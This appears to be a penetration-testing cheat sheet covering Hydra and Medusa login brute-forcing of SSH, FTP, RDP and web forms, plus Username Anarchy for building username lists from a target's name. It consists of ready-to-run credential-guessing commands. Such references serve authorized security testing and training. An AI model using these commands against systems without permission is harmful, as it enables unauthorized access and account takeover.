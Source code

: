 ## Brute-Forcing Tools

### Hydra

* Fast network login cracker
* Supports numerous protocols
* Uses parallel connections for speed
* Flexible and adaptable
* Relatively easy to use

```bash
hydra [-l LOGIN|-L FILE] [-p PASS|-P FILE] [-C FILE] -m MODULE [service://server[:PORT][/OPT]]
```

| Hydra Service | Service/Protocol             | Description                                                  | Example Command                                              |
| ------------- | ---------------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| ftp           | File Transfer Protocol (FTP) | Used to brute-force login credentials for FTP services, commonly used to transfer files over a network. | `hydra -l admin -P /path/to/password_list.txt ftp://192.168.1.100` |
| ssh           | Secure Shell (SSH)           | Targets SSH services to brute-force credentials, commonly used for secure remote login to systems. | `hydra -l root -P /path/to/password_list.txt ssh://192.168.1.100` |
| http-get/post | HTTP Web Services            | Used to brute-force login credentials for HTTP web login forms using either GET or POST requests. | `hydra -l admin -P /path/to/password_list.txt 127.0.0.1 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"` |

### Medusa

* Fast, massively parallel, modular login brute-forcer
* Supports a wide array of services

```bash
medusa [-h host|-H file] [-u username|-U file] [-p password|-P file] [-C file] -M module [OPT]
```

| Medusa Module | Service/Protocol              | Description                                                  | Example Command                                              |
| ------------- | ----------------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| ssh           | Secure Shell (SSH)            | Brute force SSH login for the `admin` user.                  | `medusa -h 192.168.1.100 -u admin -P passwords.txt -M ssh`   |
| ftp           | File Transfer Protocol (FTP)  | Brute force FTP with multiple usernames and passwords using 5 parallel threads. | `medusa -h 192.168.1.100 -U users.txt -P passwords.txt -M ftp -t 5` |
| rdp           | Remote Desktop Protocol (RDP) | Brute force RDP login.                                       | `medusa -h 192.168.1.100 -u admin -P passwords.txt -M rdp`   |
| http-get      | HTTP Web Services             | Brute force HTTP Basic Authentication.                       | `medusa -h www.example.com -U users.txt -P passwords.txt -M http -m GET` |
| ssh           | Secure Shell (SSH)            | Stop after the first valid SSH login is found.               | `medusa -h 192.168.1.100 -u admin -P passwords.txt -M ssh -f` |

### Custom Wordlists

Username Anarchy generates potential usernames based on a target's name.

| Command                               | Description                                                  |
| ------------------------------------- | ------------------------------------------------------------ |
| `username-anarchy Jane Smith`         | Generate possible usernames for "Jane Smith"                 |
| `username-anarchy -i names.txt`       | Use a file (`names.txt`) with names for input. Can handle space, CSV, or TAB delimited names. |
| `username-anarchy -a --country us`    | Automatically generate usernames using common names from the US dataset. |
| `username-anarchy -l`                 | List available username format plugins.                      |
| `username-anarchy -f format1,format2` | Use specific format plugins for username generation (comma-separated). |
| `username-anarchy -@ example.com`     | Append `@example.com` as a suffix to each username.          |
| `username-anarchy --case-insensitive` | Generate usernames in case-insensitive (lowercase) format.   |
